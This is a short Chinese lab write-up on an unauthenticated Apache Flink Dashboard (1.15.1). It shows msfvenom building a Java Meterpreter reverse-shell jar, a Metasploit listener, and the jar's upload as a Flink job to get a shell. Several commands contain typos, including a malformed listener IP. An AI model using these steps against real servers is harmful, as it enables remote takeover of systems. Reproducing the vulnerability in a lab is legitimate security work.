 # Apache Flink未授权访问漏洞

## 漏洞描述

Apache Flink Dashboard默认没有用户权限认证，攻击者可以通过未授权的Flink Dashboard控制台直接上传木马jar包，可远程执行任意系统命令获取服务器权限。

## 环境搭建

测试版本：flink-1.15.1

修改`flink-1.15.1/confflink-conf.yaml`，将8081端口开启。

![image-20220726112749940](../../.gitbook/assets/image-20220726112749940.png)

启动flink

```
start-cluster.sh
```



## 漏洞利用

访问web页面。

![image-20220726112140644](../../.gitbook/assets/image-20220726112140644.png)

利用msfovenom生成rce.jar

```
┌──(root💀kali)-[/tmp]
└─# msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.32.130 LPORT=4444 -f jar > rce.jar
Payload size: 5310 bytes
Final size of jar file: 5310 bytes
```

配置msf监听

```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 1291.68.32.130
lhost => 1291.68.32.130
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

```

在Submit New Job处上传`rec.jar`文件，点击submit。

![image-20220726112442088](../../.gitbook/assets/image-20220726112442088.png)

成功getshell。

![image-20230129203132779](../../.gitbook/assets/image-20230129203132779.png)
